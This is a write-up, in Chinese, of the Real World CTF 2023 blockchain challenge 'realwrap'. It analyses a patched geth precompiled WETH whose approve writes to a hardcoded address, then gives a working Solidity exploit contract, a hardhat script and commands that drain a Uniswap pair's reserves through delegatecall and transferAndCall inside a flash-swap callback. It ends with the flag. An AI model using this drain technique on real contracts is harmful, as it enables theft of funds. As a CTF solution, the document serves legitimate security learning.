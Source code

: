 ```yaml
---
title: Blockchain - realwrap
description: 2023 | Real World CTF | Blockchain
tags:
    - smart contract
    - precompiled contract
    - evm
---
```


## 题目

WETH on Ethereum is too cumbersome! I'll show you what is real Wrapped ETH by utilizing precompiled contract, it works like a charm especially when exchanging ETH in a swap pair. And most important, IT IS VERY SECURE!

nc 47.254.91.104 20000

faucet: http://47.254.91.104:8080

RPC(geth v1.10.26 with realwrap patch): http://47.254.91.104:8545

[:material-download: `realwrap.zip`](static/realwrap.zip)

## 解题思路

- 目标是将 `UniswapV2Pair` 的 `reserve0` 和 `reserve1` 清零，即清空合约 `UniswapV2Pair` 持有的 `WETH` 和 `SimpleToken`
- 合约 `UniswapV2Pair` 中的函数 `swap` 在参数 `data` 不为空时，将调用外部合约的函数 `uniswapV2Call`，通过参数 `to` 控制，函数执行内容可自定义
    - 由于 `mint` 中永久锁定了一部分资金，因此合约 `UniswapV2Pair` 的余额始终小于 `totalSupply`，无法通过 `burn` 清空余额
- `WETH`（Wrapped Ether，以太币操作套用 `ERC20` 标准） 与 `SimpleToken` 不同，合约地址是固定的，在合约 `Factory` 中没有初始化的过程，用 `web3.eth.getCode` 也获取不到合约的字节码
- 随后意识到 `WETH` 是预编译合约，并注意到了文件 `geth_v1.10.26_precompiled.diff`
- 预编译合约的调用需要通过内联汇编，不过本题对预编译合约进行了包装（`contracts.go`），因此 `UniswapV2Pair` 中调用 `WETH` 中函数的方式与 `SimpleToken` 相同
- 接下来分析 `contracts_weth.go`，与标准的 `IERC20` 不同，还实现了一个 `transferAndCall` 函数

    ```go
    functions = map[string]RunStatefulPrecompileFunc{
        calculateFunctionSelector("name()"):                                 metadata("name"),
        calculateFunctionSelector("symbol()"):                               metadata("symbol"),
        calculateFunctionSelector("decimals()"):                             metadata("decimals"),
        calculateFunctionSelector("balanceOf(address)"):                     balanceOf,
        calculateFunctionSelector("transfer(address,uint256)"):              transfer,
        calculateFunctionSelector("transferAndCall(address,uint256,bytes)"): transferAndCall,
        calculateFunctionSelector("allowance(address,address)"):             allowance,
        calculateFunctionSelector("approve(address,uint256)"):               approve,
        calculateFunctionSelector("transferFrom(address,address,uint256)"):  transferFrom,
    }
    ```

- `transferAndCall` 能够在转账的同时，以设定的数据（`inputArgs.Data`）调用接收者合约[^evmcall]。若能让 `UniswapV2Pair` 调用 token 的 `approve` 函数就能够清空合约的余额

    ```go
    func transferAndCall(evm *EVM, caller common.Address, input []byte, suppliedGas uint64, readOnly bool) (ret []byte, remainingGas uint64, err error) {
        if readOnly {
            return nil, suppliedGas, ErrWriteProtection
        }
        inputArgs := &TransferAndCallInput{}
        if err = unpackInputIntoInterface(inputArgs, "transferAndCall", input); err != nil {
            return nil, suppliedGas, err
        }

        if ret, remainingGas, err = transferInternal(evm, suppliedGas, caller, inputArgs.To, inputArgs.Amount); err != nil {
            return ret, remainingGas, err
        }

        code := evm.StateDB.GetCode(inputArgs.To)
        if len(code) == 0 {
            return ret, remainingGas, nil
        }

        snapshot := evm.StateDB.Snapshot()
        evm.depth++
        defer func() { evm.depth-- }()

        if ret, remainingGas, err = evm.Call(AccountRef(caller), inputArgs.To, inputArgs.Data, remainingGas, common.Big0); err != nil {
            evm.StateDB.RevertToSnapshot(snapshot)
            if err != ErrExecutionReverted {
                remainingGas = 0
            }
        }

        return ret, remainingGas, err
    }
    ```

- 若在 `uniswapV2Call` 中直接使用 `transferAndCall`，调用者将为攻击者合约，因而可以通过代理调用来转换调用者
- 另外，`contracts_weth.go` 中实现的 `approve` 硬编码了状态修改的目标（`realWrappedEtherAddr`）

    ```go
    func approve(evm *EVM, caller common.Address, input []byte, suppliedGas uint64, readOnly bool) (ret []byte, remainingGas uint64, err error) {
        if evm.interpreter.readOnly {
            return nil, suppliedGas, ErrWriteProtection
        }
        inputArgs := &ApproveInput{}
        if err = unpackInputIntoInterface(inputArgs, "approve", input); err != nil {
            return nil, suppliedGas, err
        }

        return approveInternal(evm, suppliedGas, caller, inputArgs.Spender, inputArgs.Amount)
    }
    func approveInternal(evm *EVM, suppliedGas uint64, owner, spender common.Address, value *big.Int) (ret []byte, remainingGas uint64, err error) {
        if remainingGas, err = deductGas(suppliedGas, params.Keccak256Gas*2); err != nil {
            return nil, 0, err
        }
        loc := calculateAllowancesStorageSlot(owner, spender)

        if remainingGas, err = deductGas(suppliedGas, params.SstoreSetGas); err != nil {
            return nil, 0, err
        }

        evm.StateDB.SetState(realWrappedEtherAddr, loc, common.BigToHash(value))
        return math.PaddedBigBytes(common.Big1, common.HashLength), remainingGas, nil
    }
    ```

### Exploit

??? note "Hack.sol"

    ```js
    pragma solidity ^0.8.17;

    import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

    interface IUniswapV2Pair {
        function token0() external view returns (address);
        function token1() external view returns (address);
        function swap(uint256 amount0Out, uint256 amount1Out, address to, bytes calldata data) external;
        function sync() external;
    }

    contract Hack {
        address public WETH;
        address public token;
        IUniswapV2Pair public pair;
        constructor(address instance) payable {
            require(msg.value == 1);
            pair = IUniswapV2Pair(instance);
            WETH = pair.token0();
            token = pair.token1();
        }

        function exploit() public {
            pair.swap(0, 1, address(this), bytes("1"));
            IERC20(WETH).transferFrom(address(pair), address(this), IERC20(WETH).balanceOf(address(pair)));
            IERC20(token).transferFrom(address(pair), address(this), IERC20(token).balanceOf(address(pair)));
            pair.sync();
        }

        function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {
            bytes memory approveCall = abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                type(uint256).max
            );
            address(WETH).delegatecall(approveCall);
            address(WETH).delegatecall(
                abi.encodeWithSignature(
                    "transferAndCall(address,uint256,bytes)",
                    token,
                    0,
                    approveCall
            ));
            IERC20(WETH).transfer(address(pair), 1);
        }
    }
    ```

??? note "exploit.js"

    ```js
    const { ethers } = require("hardhat");

    async function main() {
        const Factory = await ethers.getContractFactory("Factory");
        const factory = await Factory.attach(process.env.FACTORY_ADDRESS);

        console.log(`isSolved: ${await factory.isSolved()}`);

        const Hack = await ethers.getContractFactory("Hack");
        const hack = await Hack.deploy(await factory.uniswapV2Pair(), { value: 1 });
        await hack.deployed();

        let tx = await hack.exploit();
        await tx.wait();

        console.log(`isSolved: ${await factory.isSolved()}`);
    }

    main().catch((error) => {
        console.error(error);
        process.exitCode = 1;
    })
    ```

```bash
$ npm i
$ npx hardhat compile
$ export FACTORY_ADDRESS="<factory_address>"
# 编辑 hardhat.config.js，配置 url 和账户私钥
$ npx hardhat run scripts/exploit.js --network chall
```

### Flag

> rwctf{pREcOmpilEd_m4st3r_5TolE_mY_M0ney}

## 参考资料

- [Precompiled Contracts and Confidential Assets | by Qtum | Qtum](https://blog.qtum.org/precompiled-contracts-and-confidential-assets-55f2b47b231d)
- [7. Deploying to a live network | Ethereum development environment for professionals by Nomic Foundation](https://hardhat.org/tutorial/deploying-to-a-live-network)

[^evmcall]: [ethereum/go-ethereum](https://github.com/ethereum/go-ethereum/blob/master/core/vm/evm.go#L167)